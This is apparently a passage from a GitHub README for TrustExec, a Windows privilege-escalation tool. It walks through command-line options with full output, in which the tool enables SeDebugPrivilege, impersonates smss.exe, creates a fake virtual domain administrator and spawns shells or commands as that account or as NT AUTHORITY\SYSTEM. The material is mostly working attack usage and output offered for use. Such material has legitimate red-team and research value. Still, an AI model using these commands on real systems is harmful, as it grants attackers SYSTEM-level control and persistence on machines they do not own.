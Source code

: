 You can change domain name and username, use `-d` option and `-u` option.
To change domain RID, use `-i` option as follows:

```
C:\dev>TrustExec.exe -m exec -s -d VirtualDomain -u VirtualAdmin -i 92 -t 1

[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[+] SeIncreaseQuotaPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 3612
[+] Impersonation is successful.
[>] Trying to generate token group information.
[>] Trying to add virtual domain and user.
    |-> Domain   : VirtualDomain (SID : S-1-5-92)
    |-> Username : VirtualAdmin (SID : S-1-5-92-110)
[+] Added virtual domain and user.
[>] Trying to logon as VirtualDomain\VirtualAdmin.
[>] Trying to create a token assigned process.

Microsoft Windows [Version 10.0.18362.30]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\dev>whoami /user

USER INFORMATION
----------------

User Name                  SID
========================== ============
virtualdomain\virtualadmin S-1-5-92-110
```

If you want to execute single command, use `-c` option without `-s` flag as follows:

```
C:\dev>TrustExec.exe -m exec -c "whoami /user & whoami /priv"

[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeCreateTokenPrivilege is enabled successfully.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 1464
[+] Impersonation is successful.
[>] Trying to create an elevated primary token.
[+] An elevated primary token is created successfully.
[>] Trying to create a token assigned process.


USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
```